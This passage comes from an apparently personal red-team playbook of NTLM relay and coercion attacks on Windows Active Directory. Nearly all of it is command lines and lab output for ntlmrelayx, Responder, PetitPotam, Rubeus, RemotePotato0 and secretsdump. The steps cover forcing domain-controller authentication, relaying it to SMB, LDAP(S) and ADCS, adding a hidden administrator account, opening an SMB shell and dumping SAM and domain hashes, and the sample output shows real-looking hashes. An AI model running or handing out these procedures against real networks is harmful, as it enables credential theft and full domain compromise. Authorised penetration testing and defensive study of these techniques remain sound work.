				* <details><summary>Example output (click to expand)</summary><p>

						(impacket2) root@gateway0:/home/lab_user/PKINITtools# python getnthash.py lab.local/dc0\$ -dc-ip 10.0.0.4 -key b2037b9bae658af2437d588b367dd08fd075540a18f74946c11f9416b1b057a9
						Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

						[*] Using TGT from cache
						[*] Requesting ticket to self with PAC
						Recovered NT Hash
						bbd4eab7b2c01b3bbd4da0ca8dc0daa4

			1. Use the machine hash to perform a malicious activity.
				* Secretsdump

						python examples/secretsdump.py -just-dc $DOMAIN/<username>@<DC_FQDN NOT IP!> -hashes :<nthash>
	* <details><summary>Downgrade Attack (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			* [https://gist.github.com/S3cur3Th1sSh1t/0c017018c2000b1d5eddf2d6a194b7bb](https://gist.github.com/S3cur3Th1sSh1t/0c017018c2000b1d5eddf2d6a194b7bb)
			* [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
		* Process
			1. Modify `Responder.conf` Challenge: `1122334455667788`
			1. Start Responder with the flag `--disable-ess` (or `--lm` if that fails)

					python Responder.py -I <interface> --disable-ess
			1. Force DC Auth.
				* PetitPotam
					
						python PetitPotam.py -u <username> -p <password> -d $DOMAIN -dc-ip <DC-IP> <Responder-IP> <DC-IP_or_Hostname>
				* PrintSpooler

						SpoolSample.exe <DC-IP_or_Hostname> <Responder-IP>
				* No Hash --> target system is not vulnerable.
			1. Grab the 48 HEX response characters from the incoming DC NTLMv1 auth
			1. Submit to Crack.sh in the format: `NTHASH:<copied_48_chars>`
			1. Check email for nthash
			1. DCSync

				python examples/secretsdump.py -just-dc $DOMAIN/<username>@<DC_FQDN NOT IP!> -hashes :<nthash>
	* <details><summary>CrackMapExec LNK Abuse (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			* [https://twitter.com/mpgn_x64/status/1453018750253424643](https://twitter.com/mpgn_x64/status/1453018750253424643)
		* <details><summary>Requirements (Click to expand)</summary><p>
			*
		* <details><summary>NOTES (Click to expand)</summary><p>
			* Module for CME is described as "not opsec friendly"
			* You do NOT need CME to perform the LNK file attack.
		* Process
			1. Identify writeable share

					crackmapexec smb <target> -u <username> -p <password> --shares
			1. Initiate Responder or ntlmrelayx according to desired attack.
				* Responder: Downgrade Attack (if applicable)
					* Configure custom challenge to be `1122334455667788`
					* Once authentication is captured, if successfully downgraded, use `crack.sh`
					
						python Responder.py -I <interface> --disable-ess
				* ntlmrelayx.py
					
						python examples/ntlmrelayx.py -t <target>
			1. Place LNK file on identified writeable share

					crackmapexec smb <target> -u <username> -p <password> -M slinky -o NAME=<writeable_sharename> SERVER=<Responder_Server_IP>
			1. Wait for capturred authentication. Complete capture/relay process
			1. Cleanup LNK file
				* Crackmapexec
					
						crackmapexec smb <target> -u <username> -p <password> -M slinky -o NAME=<writeable_sharename> SERVER=<Responder_Server_IP> CLEANUP=True
	* <details><summary>RPC Relay Attack (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/nullenc0de/status/1266214434755743745](https://twitter.com/nullenc0de/status/1266214434755743745)
			* [https://blog.compass-security.com/2021/08/relaying-ntlm-authentication-over-rpc-again/](https://blog.compass-security.com/2021/08/relaying-ntlm-authentication-over-rpc-again/)
				* "[https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-26414](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-26414) Microsoft released a fix as part of the Update Tuesday in June 2021. The solution implemented adds integrity requirement for the DCOM Service. It still does not fix the lack of global integrity requirement for RPC, but renders one big vector of attacks impossible."
		* Process
			1. Target RPC

					http://ntlmrelayx.py -ip 0.0.0.0 -t rpc://<target_fqdn> -c "net user <username> <password> /add && net localgroup Administrators <username> /add"
				* Don't really need to set the v6 flag if you're targeting a v4 host.
			1. Coerce Authentication

					mitm6 -i <interface> -d <domain.tld>
	* <details><summary>WebDAV/Rubeus (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			* [https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb)
		* <details><summary>Requirements (Click to expand)</summary><p>
			* WebDAV Service Initiated on target
		* Process
			1. Initiate ntlmrelayx authentication

					ntlmrelayx.py -t ldaps://<dc_hostname> --delegate-access --no-smb-server -wh attacker-wpad-no-dump --no-da --no-acl --no-validate-privs
			1. Trigger Authentication
				* PetitPotam
					
						PetitPotam.exe <attacker_hostname>@80/a.txt 192.168.38.104
				* PrintSpooler
					
						SpoolSample.exe 192.168.38.104 <attacker_hostname>@80/asdf
			1. Calculate Password Hash
					* Windows
						
							Rubeus.exe hash /password:NkQuBzsPk_AqKC6 /user:ZESLUQVX$ /domain:windomain.local
			1. Perform impersonation via S4U2Proxy
				* Windows
					
						Rubeus.exe s4u /user:ZESLUQVX$ /rc4:D57DFD6E3BCDB1C2BF4D02CEE32F58C3 /impersonateuser:Administrator /msdsspn:cifs/WIN10.WINDOMAIN.LOCAL /ptt
	* <details><summary>SMB Relay with CME (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
		* <details><summary>Requirements (Click to expand)</summary><p>
		* Process
			1. Enumerate systems missing SMB Signing with Crackmapexec

					crackmapexec smb <subnet> --gen-relay-list relay-list.txt
			1. Install proxychains and configure the proxy setting to be for port `1080`.
			1. Initiate NTLMRelayx. Include the proxy setting. Set Targets File to the generated relay list, or a subset if that list is long.

					python examples/ntlmrelayx.py -socks -tf relay-list.txt -smb2support
			1. Place malicious LNK file on file share (or somewhere where local admins will generate authentication)
			1. Receive authentication, and confirm that the captured user authentication has local administrator rights on targets
				* NOTE: For as long as you have 'received' this authentication, the blue team can see persistent connections to your attacker box. Continue with the steps and be ready to kill your ntlmrelay afterwards.
			1. Use crackmapexec (which uses `secretsdump.py`) to dump credentials with relayed authentication for targets where the user is a local administrator.

					proxychains crackmapexec smb <target> -u '' -p '' -d $DOMAIN
			1. As soon as the above is completed, terminate the ntlmrelayx script.
			1. Review credentials captured by crackmapexec in CMEDB.

					cmedb
					smb
					creds
					creds <a string representing creds --> search>
			1. Authenticate to systems using the credentials captured by crackmaexec

					crackmapexec smb <target> -id <cred ID(s)>
	* <details><summary>Forced auth + RBCD + dump creds (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
		* <details><summary>Requirements (Click to expand)</summary><p>
			*
		* Process
			1. Enumerate vulnerable systems
			1. Initiate ntlmrelayx
				* The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant Resource Based Constrained Delegation privileges for the victim server to a computer account under the control of the attacker. The attacker can now authenticate as any user on the victim server.
			
			1. Pass the ticket
				
					export KRB5CCNAME=DOMAIN_ADMIN_USER_NAME.ccache
			1. Dump credentials						
			
					secretsdump.py -k -no-pass second-dc-server.local -just-dc	
			* Process
				1. To get the `--delegate-access` working correctly, may need to make the following modifications to `targetsutils.py` (`impacket/impacket/examples/ntlmrelayx/utils`), Comment out line 136 and change 141 from .pop() to [0] - also see ["issue914"](https://github.com/SecureAuthCorp/impacket/issues/914):

						136            #            self.generalCandidates.remove(target)
						137                        return target
						138                LOG.debug("No more targets for user %s" % identity)
						139               return None
						140            else:
						141                return self.generalCandidates[0]
				1. Run relaying tool

						ntlmrelayx.py -t ldaps://<dc_hostname> --delegate-access --no-smb-server -wh <attacker-wpad-no-dump> --no-da --no-acl --no-validate-privs
				1. Convert new machine account access to Kerberos Access
					
						getST.py -spn cifs/WIN10X64.$DOMAIN $DOMAIN/GCTCRVBY\$ -impersonate <local_administrator>
				1. Dump credentials
					
						export KRB5CCNAME=administrator.ccache
						secretsdump.py -k -no-pass win10x64.mcafeelab.local
	* <details><summary>RemotePotato0 DCOM DCE RPC relay (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			*
		* <details><summary>Requirements (Click to expand)</summary><p>
			*
		* Process
		* Requirements
		    * a shell in session 0 (e.g. WinRM shell or SSH shell)
		    * a privileged user is logged on in the session 1 (e.g. a Domain Admin user)
		* Tool link -<br />[https://github.com/antonioCoco/RemotePotato0/](https://github.com/antonioCoco/RemotePotato0/)
		* Modified ntlmrelayx -<br />https://shenaniganslabs.io/files/impacket-ghostpotato.zip

				ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe
	    * It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine
		1. Initialize socat

				sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 & # Can be omitted for Windows Server <= 2016
		1. Initialize the modified ntlmrelay

				sudo ntlmrelayx.py -t ldap://<target_IP> --no-wcf-server --escalate-user winrm_user_1
		1. Launch the RemotePotato0 binary from the Windows Session.

				RemotePotato0.exe -r 192.168.83.130 -p 9998 -s 2
		1. Launch a shell connection

				psexec.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET
	* <details><summary>Ghost Potato - CVE-2019-1384 (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			* Tool Link -<br />[https://shenaniganslabs.io/files/impacket-ghostpotato.zip](https://shenaniganslabs.io/files/impacket-ghostpotato.zip)
		* <details><summary>Requirements (Click to expand)</summary><p>
		    * User must be a member of the local Administrators group
		    * User must be a member of the Backup Operators group
		    * Token must be elevated
		* Process
			1. Launch with modified ntlmrelayx

					ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe
			1. Launch the file on the target computer.
	* <details><summary>ZeroLogon Relay</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			*
		* <details><summary>Requirements (Click to expand)</summary><p>
			*
		* Process
			1. Intiate ntlmrelayx.py with DCSYNC targeting.

					python examples/ntlmrelayx.py -t DCSYNC:://<dc01_vuln2coercion_FQDN> -smb2support
			1. Force Authentication

					python printerbug.py $DOMAIN/$DOMAIN_USER:$PASSWORD@<dc2_vuln2ZeroLogon_FQDN> $LOCAL_IP
			* https://dirkjanm.io/a-different-way-of-abusing-zerologon/
			* DCSync uses DRSUAPI which always requires signing (not configurable unlike SMB signing), so unless you have the actual password of the account or the server is vulnerable to zerologon, you can't relay to it.
			* "If you have the credentials of a low-privilege account, you can connect over SMB and obtain all the hashes:"

					ntlmrelayx.py -t DCSYNC://domain_controller -smb2support -auth-smb domain/low_priv_user:password
	* <details><summary>PrivExchange #1 (Patched February 12th, 2019) (Click to expand)</summary><p>
		* <details><summary>Resources (Click to expand)</summary><p>
			* [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
			* Resource: https://github.com/dirkjanm/PrivExchange
		* <details><summary>Requirements (Click to expand)</summary><p>
			*
		* Process
			1. Initiate ntlmrelayx

					ntlmrelayx.py -t ldap://<dc_fqdn> --escalate-user <username>
			1. Force Auth with privexchange python script (NOTE: Password is requested after this command)

					python privexchange.py -ah <fqdn_for_attacker_URL> <exchange_FQDN>
			* Alternatively, if you coerce user auth for creds, you can modify httpattack.py to match Dirkjanm and coerce creds in environment otherwise:

					ntlmrelayx.py -t https://<exchange_server_FQDN>/EQS/Exchange.asmx
	* <details><summary>NEEDS CONFIRM: No Creds --> Some Creds --> Multirelay: Downgrade + Relay (Click to expand)</summary><p>
		* <details><summary>Resources/References (Inspiration, but not direct match of attack) (Click to expand)</summary><p>
			* Twitter
				* Tweet: [https://twitter.com/an0n_r0/status/1432097564518649861](https://twitter.com/an0n_r0/status/1432097564518649861)
				* Referenced 'HQ' Video: [https://streamable.com/dzdmfb](https://streamable.com/dzdmfb)
		* Process
			* Attack
				1. Initiate ntlmrelayx, prepared to capture authentication. Target DC vulnerable to petitpotam/printspooler.
					
						python examples/ntlmrelayx.py -ip <attacker-ip> -t <target-to-attack> -socks -smb2support --no-http-server --no-wcf-server
				1. Coerce/Force machine account authentication (theory: any computer, but may want SMB signing disabled)
					
						mitm6 -hw <host_whitelist.txt> -i <interface>
				1. Submit command to stop servers in the ntlmrelayx panel window (may not appear like you can type, but if you used `-socks`, you can)

						stopservers
				1. Initiate Responder with a downgrade attack prepared.

						python Responder.py -I eth0 --lm -v
				1. Initiate second ntlmrelayx with `-socks`, again. Now, target where DC creds will go. If
					
						python examples/ntlmrelayx.py -ip <attacker-ip> -tf <targets,-to-attack> -socks -smb2support --no-http-server --no-wcf-server -ntlmchallenge "1122334455667788"
					* Specify your prefered targets in a list, but include the responder IP/port (prefix `smb://`). Any attacks you relay will relay to responder to test for downgrade, too.
				1. Launch PetitPotam with proxychains (modified to ntlmrelay port) using captured credentials. Specify the username captured in username parameter.
					
						proxychains python petitpotam.py -u <machine_username,escape_the_\$> -p '' <attacker_ip> <target_name_1>
					* Specify a blank password
					* Machine accounts needs to escape the `$`.
				1. Observe within ntlmrelayx that the authentication is not administrator.


## Attack Guide. Build your own attack.
### From a Linux Machine
1. Enumerate
	* Systems with WebClientService/WebDEV Running
		* [SMB Enumeration Guide](Testaments_and_Books/Redvelations/Active_Directory/001-3_SMB_Enumeration.md)
	* Systems Missing SMB Signing (To relay to SMB)
		* [SMB Enumeration Guide](Testaments_and_Books/Redvelations/Active_Directory/001-3_SMB_Enumeration.md)
	* Systems vulnerable to disabling LDAP Signing ("Drop the MIC")
		* [SMB Enumeration Guide](Testaments_and_Books/Redvelations/Active_Directory/001-3_SMB_Enumeration.md)
	* Opportunities for forced/coerced authentication
		* [RPC Enumeration Guide](Testaments_and_Books/Redvelations/Active_Directory/001-4_RPC_Enumeration.md)
		* [SMB Enumeration Guide](Testaments_and_Books/Redvelations/Active_Directory/001-3_SMB_Enumeration.md)
		* [Forced Authentication Guide](Testaments_and_Books/Redvelations/Active_Directory/003-3_AD_Forced_Authentication.md)
1. Initiate auth. relaying/capturing tool ([Adversary-in-the-Middle TTP](TTP/T1557_Adversary-in-the-Middle/T1557.md))
	* Relay
		* To HTTP/S
			* To ADCS (HTTP)
				* <details><summary>ntlmrelayx (Click to expand)</summary><p>

						ntlmrelayx.py -t https://<certificate-server-name>/certsrv/certfnsh.asp -smb2support --adcs --template "DomainController"
					* `--adcs` - enables ADCS attack
					* `--template` - Specifies template for use. Include within `"`.
						* <details><summary>Template Tips (Click to expand)</summary><p>
							* `"DomainController"` - usually works for Domain Controllers, but other templates (Kerberos-Something?) can also be used to get intended the high level access
							* Templates can be entirely custom, so enumeration helps
							* User auth relay should match to the template and can still provide escalation
			* Any web app. with NTLM auth? Untested across any variety
		* To SMB
			* Execute specific file or command on target
				* <details><summary>ntlmrelay (Click to expand)</summary><p>
					* `-c` for command/payload
					* Examples
						* Example 1: Specific Command

								ntlmrelayx.py -t $TARGET -smb2support -c 'whoami'
							* Example Output

									root@jack-Virtual-Machine:~/impacket# ntlmrelayx.py -t $TARGET -smb2support -c 'whoami'
									Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

									[*] Protocol Client IMAP loaded..
									[*] Protocol Client IMAPS loaded..
									[*] Protocol Client LDAPS loaded..
									[*] Protocol Client LDAP loaded..
									[*] Protocol Client HTTPS loaded..
									[*] Protocol Client HTTP loaded..
									[*] Protocol Client MSSQL loaded..
									[*] Protocol Client SMB loaded..
									[*] Protocol Client RPC loaded..
									[*] Protocol Client DCSYNC loaded..
									[*] Protocol Client SMTP loaded..
									[*] Running in relay mode to single host
									[*] Setting up SMB Server
									[*] Setting up HTTP Server on port 80
									[*] Setting up WCF Server
									[*] Setting up RAW Server on port 6666

									[*] Servers started, waiting for connections
									[*] SMBD-Thread-5: Received connection from 10.0.0.101, attacking target smb://ca.microsoftdelivery.com
									[*] Authenticating against smb://ca.microsoftdelivery.com as MICROSOFTDELIVE/DOMAIN_ADMIN SUCCEED
									[*] SMBD-Thread-7: Connection from 10.0.0.101 controlled, but there are no more targets left!
									[*] SMBD-Thread-8: Connection from 10.0.0.101 controlled, but there are no more targets left!
									[*] SMBD-Thread-9: Connection from 10.0.0.101 controlled, but there are no more targets left!
									[*] SMBD-Thread-10: Connection from 10.0.0.101 controlled, but there are no more targets left!
									[*] Service RemoteRegistry is in stopped state
									[*] Starting service RemoteRegistry
									[*] Executed specified command on host: ca.microsoftdelivery.com
									nt authority\system

									[*] Stopping service RemoteRegistry
						* Example 2: Specific File (not yet working in testing)

								ntlmrelayx.py -t $TARGET -smb2support -e $WORKINGDIR/file
			* Reverse Shell
				* <details><summary>ntlmrelay (Click to expand)</summary><p>
					* Examples
						* Example 1
							1. Initiate ntlmrelay and intercept authentication

									ntlmrelayx.py -t $TARGET -smb2support -i
								* Example Output: ntlmrelay

										root@jack-Virtual-Machine:~/impacket# ntlmrelayx.py -t $TARGET -smb2support -i
										Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

										[*] Protocol Client IMAPS loaded..
										[*] Protocol Client IMAP loaded..
										[*] Protocol Client LDAP loaded..
										[*] Protocol Client LDAPS loaded..
										[*] Protocol Client HTTPS loaded..
										[*] Protocol Client HTTP loaded..
										[*] Protocol Client MSSQL loaded..
										[*] Protocol Client SMB loaded..
										[*] Protocol Client RPC loaded..
										[*] Protocol Client DCSYNC loaded..
										[*] Protocol Client SMTP loaded..
										[*] Running in relay mode to single host
										[*] Setting up SMB Server
										[*] Setting up HTTP Server on port 80
										[*] Setting up WCF Server
										[*] Setting up RAW Server on port 6666

										[*] Servers started, waiting for connections
										[*] SMBD-Thread-5: Received connection from 10.0.0.101, attacking target smb://ca.microsoftdelivery.com
										[*] Authenticating against smb://ca.microsoftdelivery.com as MICROSOFTDELIVE/DOMAIN_ADMIN SUCCEED
										[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
							1. Run netcat to utilize the interactive session
								* Example Output: running netcat

										root@jack-Virtual-Machine:~/Responder# nc 127.0.0.1 11000
										Type help for list of commands
										# shares
										ADMIN$
										C$
										CertEnroll
										IPC$
										Users
				* <details><summary>Multirelay (Click to expand)</summary><p>

						python MultiRelay.py -t $TARGET -u ALL
				* C2 (See C2 guides)
			* Dump Credentials
				* <details><summary>Requirements (Click to expand)</summary><p>
					* Local Administrator Privilege
				* <details><summary>ntlmrelayx (Click to expand)</summary><p>
					* Overview
						* ntlmrelayx dumps credentials by default using impacket's `secretsdump.py`
						* Script assumes `secretsdump.py` is in the same folder. You can specify the file location with `-e` if needed.
						* `-socks` option can be used with compatible tools for memory dumping
						* `crackmapexec` makes use of `secretsdump.py` but stores output to `cmedb`, which can be quite functional
					* Examples
						* Example 1

								ntlmrelayx.py -tf $WORKINGDIR/relay-list.txt -smb2support
							* Example Output

									root@jack-Virtual-Machine:~/impacket# ntlmrelayx.py -tf relay-list -smb2support
									Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

									[*] Protocol Client IMAP loaded..
									[*] Protocol Client IMAPS loaded..
									[*] Protocol Client LDAP loaded..
									[*] Protocol Client LDAPS loaded..
									[*] Protocol Client HTTP loaded..
									[*] Protocol Client HTTPS loaded..
									[*] Protocol Client MSSQL loaded..
									[*] Protocol Client SMB loaded..
									[*] Protocol Client RPC loaded..
									[*] Protocol Client DCSYNC loaded..
									[*] Protocol Client SMTP loaded..
									[*] Running in relay mode to hosts in targetfile
									[*] Setting up SMB Server
									[*] Setting up HTTP Server on port 80
									[*] Setting up WCF Server
									[*] Setting up RAW Server on port 6666

									[*] Servers started, waiting for connections
									[*] SMBD-Thread-5: Connection from MICROSOFTDELIVE/TEST@10.0.0.101 controlled, attacking target smb://10.0.0.101
									[-] Authenticating against smb://10.0.0.101 as MICROSOFTDELIVE/TEST FAILED
									[*] SMBD-Thread-6: Connection from MICROSOFTDELIVE/DOMAIN_ADMIN@10.0.0.101 controlled, attacking target smb://10.0.0.3
									[*] Authenticating against smb://10.0.0.3 as MICROSOFTDELIVE/DOMAIN_ADMIN SUCCEED
									[*] SMBD-Thread-6: Connection from MICROSOFTDELIVE/DOMAIN_ADMIN@10.0.0.101 controlled, attacking target smb://10.0.0.101
									[-] Authenticating against smb://10.0.0.101 as MICROSOFTDELIVE/DOMAIN_ADMIN FAILED
									[*] Service RemoteRegistry is in stopped state
									[*] Starting service RemoteRegistry
									[*] Target system bootKey: 0x60bac63614b569c3a9554f4d8827e735
									[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
									Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
									Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
									DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
									WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c11d5d34c5a505df4e476fd56a01542f:::
									[*] Done dumping SAM hashes for host: 10.0.0.3
									[*] Stopping service RemoteRegistry
			* Zerologon Abuse (DCSync)
				* <details><summary>ntlmrelay (Click to expand)</summary><p>
					* Note: Unable to make this work on unpatched server 2019 targets in lab.
					* Examples
						* Example 1: Dump domain controller secrets only
							
								ntlmrelayx.py -t dcsync://$DOMAIN_CONTROLLER
						* Example 2: Dump Domain's secrets
							
								ntlmrelayx.py -t dcsync://$DOMAIN_CONTROLLER -auth-smb $DOMAIN/$DOMAIN_USER:$PASSWORD
			* Enumerate Local Administrator Accounts
				* <details><summary>ntlmrelay (Click to expand)</summary><p>
					* Examples
						* Example 1: Dump domain controller secrets only

								ntlmrelayx.py -t $TARGET --enum-local-admins
							* Example Output

									.
		* To LDAP (excludes RBCD)
			* <details><summary>Overview, Requirements (Click to expand)</summary><p>
				* NEEDS CONFIRM: Any attacks performed in LDAP can just the same be performed over LDAPS
			* Dump Broad LDAP Information
				* <details><summary>ntlmrelayx (Click to expand)</summary><p>
					* Example

							ntlmrelayx.py --no-acl --no-da --no-validate-privs -t ldap://$DOMAIN_CONTROLLER
						* Example Output

								root@jack-Virtual-Machine:~# ntlmrelayx.py --no-acl --no-da --no-validate-privs -t ldap://$
								DOMAIN_CONTROLLER
								Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

								[*] Protocol Client IMAPS loaded..
								[*] Protocol Client IMAP loaded..
								[*] Protocol Client LDAP loaded..
								[*] Protocol Client LDAPS loaded..
								[*] Protocol Client HTTPS loaded..
								[*] Protocol Client HTTP loaded..
								[*] Protocol Client MSSQL loaded..
								[*] Protocol Client SMB loaded..
								[*] Protocol Client RPC loaded..
								[*] Protocol Client DCSYNC loaded..
								[*] Protocol Client SMTP loaded..
								[*] Running in relay mode to single host
								[*] Setting up SMB Server
								[*] Setting up HTTP Server on port 80
								[*] Setting up WCF Server
								[*] Setting up RAW Server on port 6666

								[*] Servers started, waiting for connections
								[*] HTTPD(80): Connection from 10.0.0.101 controlled, attacking target ldap://dc01.microsoftdelivery.com
								[*] HTTPD(80): Authenticating against ldap://dc01.microsoftdelivery.com as / SUCCEED
								[*] Assuming relayed user has privileges to escalate a user via ACL attack
								[*] Dumping domain info for first time
								[*] HTTPD(80): Connection from 10.0.0.101 controlled, but there are no more targets left!
								[*] Domain info dumped into lootdir!
			* Shadow Credentials Relay Attack
				* Manipulate the `msDS-KeyCredentialLink` attribute of a target user/computer to obtain full control over that object.
				* <details><summary>Requirements (Click to expand)</summary><p>
					* Domain Functional Level Windows Server 2016+ (Necessary PKINIT features were introduced with Windows Server 2016)
					* Domain must have 1+ DC running Windows Server 2016 or above
					* The targeted DC must have its own certificate + keys (the organization must have something such as AD CS, PKI, a CA, etc.)
						* Required because the DC needs its own certificate and keys for the session key exchange during the `AS_REQ <-> AS_REP` transaction.
						* A `KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP` will be raised if requirement not met
					* The attacker must have control over an account able to write the `msDs-KeyCredentialLink` attribute of the target user or computer account
				* <details><summary>ntlmrelayx [https://github.com/SecureAuthCorp/impacket/pull/1132](https://github.com/SecureAuthCorp/impacket/pull/1132) (resources: [https://github.com/ShutdownRepo/pyWhisker](https://github.com/ShutdownRepo/pyWhisker)) (Click to expand)</summary><p>
					* `--shadow-credentials` - Enable Shadow Credentials relay attack
					* `--shadow-target` - "target account (user or computer$) to populate msDS-KeyCredentialLink from"
					* `--pfx-password` - "password for the PFX stored self-signed certificate (will be random if not set, not needed when exporting to PEM)"
					* `--export-type` - "choose to export cert+private key in PEM or PFX (i.e. #PKCS12) (default: PFX))"
					* `--cert-outfile-path` - "filename to store the generated self-signed PEM or PFX certificate and key"
			* Account Creation for future use
				* <details><summary>ntlmrelayx (Click to expand)</summary><p>
					* `--add-computer` flag
			* Enumerate LDAP
				* <details><summary>ntlmrelayx (Click to expand)</summary><p>
			* Privesc to DA
				* <details><summary>ntlmrelayx (Click to expand)</summary><p>
					* `-t` should be `ldap://<dc_hostname`
					* ntlmrelayx checks for this by default with ldap
						* Consequently, this slows down other attacks and is usually recommended to be disabled if trying the other attacks
			* Custom ntlmrelayx + exploits
				* <details><summary>RemotePotato0, Ghost Potato (Click to expand)</summary><p>
					* Modified ntlmrelayx -<br />[https://shenaniganslabs.io/files/impacket-ghostpotato.zip](https://shenaniganslabs.io/files/impacket-ghostpotato.zip)
					1. Initialize socat
						
							sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 & # Can be omitted for Windows Server <= 2016
							
								ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe
					1. Initialize the modified ntlmrelay
						
							sudo ntlmrelayx.py -t ldap://<target_IP> --no-wcf-server --escalate-user winrm_user_1
		* To LDAPS
			* <details><summary>Overview, Requirements (Click to expand)</summary><p>
				* Required for sensitive functions (new account creation)
				* Not default
				* LDAP/S signing must not be enabled
					* "Drop the MIC" bypasses LDAP signing, if vulnerable
				* Request a new Machine Account with Local Admin rights to the relayed account ([`Create Account - Domain Account` TTP](TTP/T1136_Create_Account/002_Domain_Account/T1136.002.md))
				* Requires a relayed Machine Account authentication
			* Dump Broad LDAP Information
				* <details><summary>ntlmrelayx (Click to expand)</summary><p>
					* Example

							ntlmrelayx.py --no-acl --no-da --no-validate-privs -t ldaps://$DOMAIN_CONTROLLER
						* Example Output

								root@jack-Virtual-Machine:~# ntlmrelayx.py --no-acl --no-da --no-validate-privs -t ldaps://$DOMAIN_CONTROLLER
								Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

								[*] Protocol Client IMAP loaded..
								[*] Protocol Client IMAPS loaded..
								[*] Protocol Client LDAP loaded..
								[*] Protocol Client LDAPS loaded..
								[*] Protocol Client HTTPS loaded..
								[*] Protocol Client HTTP loaded..
								[*] Protocol Client MSSQL loaded..
								[*] Protocol Client SMB loaded..
								[*] Protocol Client RPC loaded..
								[*] Protocol Client DCSYNC loaded..
								[*] Protocol Client SMTP loaded..
								[*] Running in relay mode to single host
								[*] Setting up SMB Server
								[*] Setting up HTTP Server on port 80
								[*] Setting up WCF Server
								[*] Setting up RAW Server on port 6666

								[*] Servers started, waiting for connections
								[*] HTTPD(80): Connection from 10.0.0.101 controlled, attacking target ldaps://dc01.microsoftdelivery.com
								[*] HTTPD(80): Authenticating against ldaps://dc01.microsoftdelivery.com as / SUCCEED
								[*] Assuming relayed user has privileges to escalate a user via ACL attack
								[*] Dumping domain info for first time
								[*] HTTPD(80): Connection from 10.0.0.101 controlled, but there are no more targets left!
								[*] HTTPD(80): Connection from 10.0.0.101 controlled, but there are no more targets left!
								[*] HTTPD(80): Connection from 10.0.0.101 controlled, but there are no more targets left!
								[*] Domain info dumped into lootdir!

			* Escalate User
				* <details><summary>ntlmrelayx (Click to expand)</summary><p>
					* Examples
						* Example 1

							ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
			* Create RBCD Abuse Opportunity
				* Note: The relay must target LDAPS in cases where the computer account is not already compromised.
				* <details><summary>ntlmrelayx (Click to expand)</summary><p>
					* Examples
						* Example 1: Specify compromised computer account name that you have control over.

								ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --delegate-access --escalate-user $COMPUTER_ACCOUNT
						* Example 2: Specify the creation of a new computer account name (requires LDAPS)

								ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --delegate-access --add-computer
		* <details><summary>SPECIAL: ntlmrelayx proxy technique (Click to expand)</summary><p>
			* <details><summary>How the re-authentication works (Click to expand)</summary><p>
					* "If we have a target that matches the user we picked before, we force re-authentication. To do this, we send a TreeConnect response with the status field: `STATUS_NETWORK_SESSION_EXPIRED`" -<br />[https://www.secureauth.com/blog/what-is-old-is-new-again-the-relay-attack/](https://www.secureauth.com/blog/what-is-old-is-new-again-the-relay-attack/)
			* Examples
				* Example 1

						ntlmrelayx.py -tf <list_of_targets.txt> -socks -smb2support
					* <details><summary>Example Output (Click to expand)</summary><p>

							ntlmrelayx.py -tf /tmp/targets.txt -socks -smb2support
							[*] Servers started, waiting for connections
							Type help for list of commands
							ntlmrelayx> socks
							Protocol  Target          Username                  Port
							--------  --------------  ------------------------  ----
							MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
